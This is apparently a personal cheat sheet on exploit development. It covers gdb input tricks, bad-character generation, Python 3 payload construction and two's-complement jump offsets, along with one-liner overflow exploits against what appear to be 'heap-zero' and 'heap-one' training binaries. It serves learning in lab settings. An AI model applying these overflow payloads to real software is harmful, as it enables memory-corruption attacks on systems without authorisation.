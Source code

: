 
# GDB multiple inputs ===========================================================
```
gdb$ r < <(cat 1_intest.txt 2_intest.txt)

gdb --args executablename arg1 arg2 arg3
```

# Getting bad characters ========================================================

[Give all characters and see what when through]:
```
all_characters = b"".join([ struct.pack("<B",x) for x in range(1, 256) ])
```

# Exploit Development w/ Python3 ================================================

[Use b'' for string values]: b'' (such as b'A')

- - - - - - - - - - - - - - - - - - - - - - -

[For large payloads, use b''.join([payload])]: payload=b''.join([b'A'*100+struct.pack('<I',0x08048835)])

- - - - - - - - - - - - - - - - - - - - - - -

[Use _this_ instead of print()]: sys.stdout.buffer.write(payload)

- - - - - - - - - - - - - - - - - - - - - - -

[Example 1]:
``` PYTHON 2
./heap-zero $(python -c "import struct; print 'A'*72 + struct.pack('<I',0x08048835)")
```
``` PYTHON 3
./heap-zero $(python3 -c "import struct; import sys; sys.stdout.buffer.write(b'A'*72 + struct.pack('<I',0x08048835))")
```

[Example 2]:
``` PYTHON 2
./heap-one $(python -c "import struct; print('A'*20 + struct.pack('<I',0x0804c140))") $(python -c "import struct; print(struct.pack('<I',0x0804889a))")
```
``` PYTHON 3
./heap-one $(python3 -c "import struct; import sys; sys.stdout.buffer.write(b'A'*20 + struct.pack('<I',0x0804c140))") $(python3 -c "import struct; import sys; sys.stdout.buffer.write(struct.pack('<I',0x0804889a))")
```

- - - - - - - - - - - - - - - - - - - - - - -

# ===========================================================

# TIPS AND TRICKS

## TWO'S COMPLEMENT TO GET NEGATIVE NUMBER IN HEX
+ Let's say we wan't -70
+ 2’s complement = (<jump_distannce> ^ 0xff) + 1

[Python Template]: hex( ( <jump_distance> ^ 0xff) + 1 )
[Python Example]:  hex( (70 ^ 0xff) + 1 )

## 2's compliment that fit into 1 byte
##  smallest 1byte/8bit negative number is -128
```
>>> hex((70 ^ 0xff) + 1)
'0xba'
>>> hex((128 ^ 0xff) + 1)
'0x80'
```

